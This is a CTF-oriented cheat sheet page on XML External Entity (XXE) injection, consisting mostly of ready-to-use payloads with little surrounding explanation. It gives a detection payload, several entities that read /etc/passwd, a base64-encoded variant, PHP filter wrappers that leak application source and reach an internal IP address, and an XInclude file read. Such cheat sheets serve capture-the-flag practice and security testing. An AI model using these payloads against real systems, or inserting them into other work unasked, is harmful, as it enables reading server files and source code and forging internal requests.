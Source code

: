 ```yaml
---
title: "XML External Entity (XXE)"
description: "Inject malicious XML entities to read internal files or trigger server requests in XML parsers."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["xxe", "xml", "injection", "local file inclusion", "ctf"]
authors: ["CTF.Support Team"]
summary: "Abuse XML parsers that process untrusted input to retrieve files or make out-of-band requests."
aliases: ["/web/xxe/"]
slug: "xxe"
toc: true
---
```


## Introduction

An **XXE (XML External Entity)** vulnerability arises when a server-side XML parser processes external entities.
Attackers can read local files or cause SSRF requests from the target server.

## Detection Payload

``` xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

## Retreive files

### Classic XXE

``` xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

---

``` xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

---

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

### Classic XXE Base64 encoded

``` xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

``` xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

---

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude attacks

``` xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
